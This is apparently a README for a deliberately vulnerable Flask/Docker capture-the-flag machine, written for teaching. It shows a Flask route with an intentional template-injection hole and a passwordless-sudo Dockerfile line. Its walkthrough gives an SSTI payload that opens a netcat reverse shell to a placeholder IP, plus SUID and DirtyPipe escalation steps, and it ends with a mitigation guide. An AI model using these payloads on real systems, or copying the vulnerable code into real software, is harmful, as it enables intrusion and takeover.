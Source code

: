 # Tholvi Docker 1 - Medium CTF Machine

![Difficulty](https://img.shields.io/badge/Difficulty-Medium-orange)
![Category](https://img.shields.io/badge/Category-Web%20%2B%20PrivEsc-blue)
![Platform](https://img.shields.io/badge/Platform-Docker%2FLinux-lightgrey)

A deliberately vulnerable CTF machine with:
- Flask Server-Side Template Injection (SSTI)
- Docker container escape
- Linux privilege escalation

## Table of Contents
1. [Quick Start](#quick-start)
2. [Vulnerabilities](#vulnerabilities)
   - [Flask SSTI](#1-flask-ssti---remote-code-execution)
   - [Docker Escape](#2-docker-escape---host-access)
   - [Privilege Escalation](#3-privilege-escalation---root)
3. [Exploitation Walkthrough](#exploitation-walkthrough)
4. [Mitigation Guide](#mitigation-guide)
5. [Flag Locations](#flag-locations)
6. [Educational Value](#educational-value)

---

### Quick Start

### Build and run
git clone https://github.com/your-repo/dockerized-flask-ctf.git
cd dockerized-flask-ctf
docker-compose up -d

### Access the web app
curl http://localhost:5000

### Vulnerabilities
### 1. Flask SSTI - Remote Code Execution

#### Vulnerable Code:

```Python
@app.route("/debug")
def debug():
    user_input = request.args.get('input', 'None')
    return render_template_string(f"Debug: {user_input}")  # SSTI here
```
#### Impact:

    Execute arbitrary commands as ctf user inside container.

### 2. Docker Escape - Host Access

Misconfiguration:

```Bash
RUN echo "ctf ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```
Impact:

    Break out of container to host system via sudo.

3. Privilege Escalation - Root

Attack Vectors:

    SUID Binary: /usr/bin/suid-wrapper (compiled with setuid(0))

    Kernel Exploit: DirtyPipe (CVE-2022-0847) in privileged container.

Exploitation Walkthrough
Step 1: Gain Initial Access (SSTI)

    Detect SSTI:
```http
http://localhost:5000/debug?input={{7*7}}
```
Output: Debug: 49
Get reverse shell:

```Python
{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f').read()}}
```
Step 2: Escape Docker Container

    Check containerization:
```Bash
cat /proc/1/cgroup | grep docker
```
Abuse sudo:
```Bash
sudo su  # No password required
```
Step 3: Privilege Escalation

Option A: SUID Binary
```bash
/usr/bin/suid-wrapper  # Spawns root shell
```
Option B: Kernel Exploit
```Bash
gcc dirtypipe.c -o exploit && ./exploit
```
Mitigation Guide
Vulnerability	Secure Configuration
SSTI	Use render_template() instead of render_template_string()
Docker Escape	Remove NOPASSWD in /etc/sudoers
Priv Esc	Patch kernel and avoid privileged: true in Docker

Secure Dockerfile Example:
```Dockerfile
USER ctf
RUN echo "ctf ALL=(ALL) /usr/bin/less" >> /etc/sudoers  # Restrict sudo
```
Flag Locations
Flag	Path	Unlock Condition
user.txt	/home/ctf/user.txt	After SSTI exploit
root.txt	/root/root.txt	After privilege escalation

### Educational Value

Skills Learned:

    Web app testing (SSTI detection)

    Container security auditing

    Linux privilege escalation

Recommended Tools:

    linpeas.sh for host enumeration

    checksec for binary analysis

    docker inspect for container auditing
